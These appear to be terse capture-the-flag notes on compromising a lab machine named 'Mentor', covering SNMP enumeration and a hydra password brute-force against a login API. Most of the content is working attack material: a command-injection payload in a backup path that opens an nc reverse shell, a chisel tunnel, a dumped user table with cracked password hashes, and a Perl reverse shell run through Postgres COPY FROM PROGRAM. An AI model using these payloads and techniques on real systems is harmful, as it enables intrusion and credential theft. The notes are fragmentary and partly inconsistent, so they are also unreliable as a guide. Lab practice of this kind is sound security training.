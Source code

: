 # Mentor

## Enumeration
### Nmap
OS: Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
SSH: OpenSSH 8.9p1
HTTP: Apache httpd 2.4.52
            CVE-2022-22720
      Werkzeug/2.0.3 Python/3.6.9
SNPM (UDP): SNMPv1 server; net-snmp SNMPv3 server (public)

### Web enumeration

### SNMP
Community string: public (msf)
Emails/users: Me admin@mentorquotes.htb
VM: vmlinuz-5.15.0-56-generic
```bash
$ snmp-check $URL -p 161 -c public                                                             kali@kali
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.109.43:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.129.109.43
  Hostname                      : mentor
  Description                   : Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
  Contact                       : Me <admin@mentorquotes.htb>
  Location                      : Sitting on the Dock of the Bay
  Uptime snmp                   : 02:52:06.65
  Uptime system                 : 02:51:54.62
  System date                   : 2022-12-11 18:04:04.0
```

Internal:
iso.3.6.1.2.1.25.4.2.1.5.1696 = STRING: "/usr/local/bin/login.sh"
iso.3.6.1.2.1.25.4.2.1.5.2121 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"


## /API Enumeration
### Web
james:james@mentorquotes.htb:

## Pwn
$ hydra -l james -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 80 api.mentorquotes.htb http-post-form "/auth/login:{\"email\"\: \"james@mentorquotes.htb\",\"username\"\: \"^USER^\",\"password\"\: \"^PASS^\"}:detail"
$ john token.txt

## User
/admin/backup
```json
{
    "backup": "RCE",
    "path": "/etc/passwd$(nc 10.10.16.6 9001 -e sh)"
}
```

root $ cat /home/svc/user.txt
fb23282b8c488b1d11c1b894c662e5c8

Docker environment

GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
SECRET=76dsf761g31276hjgsdkahuyt123

DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

## DB Lateral movement
host> chisel server --port 9003 --reverse
docker> ./chisel client -v 10.10.16.6:9003 R:5432:172.22.0.1:5432

$ psql -h 127.0.0.1 -p 5432 -Upostgres -d mentorquotes_db
Password: postgres

psql > mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | user1@mentorquotes.htb | james       | 25d55ad283aa400af464c76d713c07ad

25d55ad283aa400af464c76d713c07ad:12345678
53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani

psql> COPY cmd_exec FROM PROGRAM 'perl -e ''use Socket;$i="10.10.16.6";$p=9005;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};''';

## SVC
SSH svc:123meunomeeivani

svc $ cat user.txt
fb23282b8c488b1d11c1b894c662e5c8

svc $ cat /etc/snmp/snmpd.conf
SuperSecurePassword123__

svc $ su james

## James
james $ sudo cat /root/root.txt
304ffdbae0104f603771dd54a2e66486
